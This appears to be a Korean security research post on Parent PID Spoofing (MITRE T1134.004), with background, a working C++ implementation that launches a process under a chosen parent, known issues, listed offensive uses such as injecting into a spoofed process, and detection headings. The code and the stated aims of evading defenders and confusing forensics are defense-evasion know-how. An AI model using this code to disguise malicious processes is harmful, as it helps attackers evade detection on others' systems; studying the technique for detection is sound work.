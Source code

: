 ```yaml
---
title: "Parent Pid Spoofing"
layout: post
---
```


# Parent Pid Spoofing [T1134.004]

1. 개요
PPID를 원하는 대상의 PID로 바꾸는 기법이다.

defender가 프로세스의 부모 프로세스 명을 확인할 때 우회하는 용도로 쓰일 수 있어보인다. 
또한 포렌식할 때도 혼돈을 줄 수 있어보인다.



2. 설명
일반적으로 Creator Process는 Parent Process와 같다.

하지만 Creator Process와 Parent Process를 분리할 수 있는 방법이 있다.

이 방법은 Windows 내부에서도 사용되는데,
Windows internals 7th Part 1의 Chapter 7 Security - User Account Control And virtualization - Elevation - Running with administrative rights를 보자

관리자 권한으로 실행시 AIS(Application Information Service)


참고 :  - [ETW 설명](../../Tracing/ETW/Windows_Kernel_Trace/Process/kor.md) 


3. 구현
코드는 제작중인 분탕 프로젝트의 코드를 참조한다. - https://github.com/Ddatg30/Buntang

```cpp
DWORD AccessTokenManipulation::ParentPidSpoofing(DWORD parent_proc_infod, const std::wstring& process_path){
		SIZE_T size = 0;
		PVOID buffer = nullptr;
		STARTUPINFOEX start_info = { sizeof(start_info) };
		PROCESS_INFORMATION proc_info = { };
		HANDLE process_handle = nullptr;

		process_handle = ::OpenProcess(PROCESS_CREATE_PROCESS, FALSE, parent_proc_infod);
		if (process_handle == nullptr){
			return ::GetLastError();
		}

		::InitializeProcThreadAttributeList(nullptr, 1, 0, &size);
		if (size != 0){
			buffer = ::malloc(size);

			PPROC_THREAD_ATTRIBUTE_LIST attributes = reinterpret_cast<PPROC_THREAD_ATTRIBUTE_LIST>(buffer);

			::InitializeProcThreadAttributeList(attributes, 1, 0, &size);
			if (attributes != nullptr){
				::UpdateProcThreadAttribute(attributes, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &process_handle, sizeof(process_handle), nullptr, nullptr);
				start_info.lpAttributeList = attributes;

				// CREATE_NEW_CONSOLE flag is avoid error 0xC0000142 
				if (!::CreateProcessW(nullptr, const_cast<LPWSTR>(process_path.data()), nullptr, nullptr, FALSE, CREATE_NEW_CONSOLE | EXTENDED_STARTUPINFO_PRESENT, nullptr, nullptr, reinterpret_cast<STARTUPINFO*>(&start_info), &proc_info)){
					return ::GetLastError();
				}

				::DeleteProcThreadAttributeList(attributes);
				::CloseHandle(proc_info.hProcess);
				::CloseHandle(proc_info.hThread);
			}

			::free(buffer);
		}

		::CloseHandle(process_handle);

		return ERROR_SUCCESS;
	}
}
```

여담.
모든 if 문에 else로 return ::GetLastError(); 코드를 넣지 않았다.
해당 부분은 웬만해서는 에러가 일어나지 않기 때문이다.

4.  해설
InitializeProcThreadAttributeList로 프로세스 특성 설정 후 
UpdateProcThreadAttribute로 특성 설정 세팅 한 뒤 CreateProcessW로 프로세스 생성

spoofing 할 process를 CreateProcessW를 통해 생성 할 때 CREATE_NEW_CONSOLE이나 CREATE_NO_WINDOW flag를 주지않으면 0xC0000142 에러가 발생한다.



6.  현재 문제점
- UWP 앱에는 parent pid spoofing 행위를 하면 제약이 많다.
- spoofing 한 process가 createprocess를 호출하면 에러가 생긴다.
createprocess만 에러가 생기는것인지, 아니면 kernelbase를 통한 호출하는 모든 winapi들이 문제가 생기는 것인지 확인해야 한다.
![Description of Image](/parentpidspoofing_createprocess_error.PNG)

kernelbase를 통하지 않는 ShellExecuteEx()나 NtCreateUserProcess()등을 호출해서 생성하는 경우에는 에러가 발생하지 않는다.



6.  활용
악성 프로그램을 spoof 프로세스로 이용
정상 프로그램을 spoof 프로세스로 만든 후 해당 프로세스에 인젝션



8.  탐지

7.1 etw

7.2 dtrace

7.3 kernel driver (PsSetCreateProcessNotifyRoutineEx)


더 연구해야 할 사항
1. office document에서는 PowerShell/Rundll32를 활용하는 것 같다. 해당 부분을 연구해 봐야한다.
2. Parent Pid Spoofing으로 Privilege Escalation이 가능한지 - windows 7 에서만 되는 것 같다?


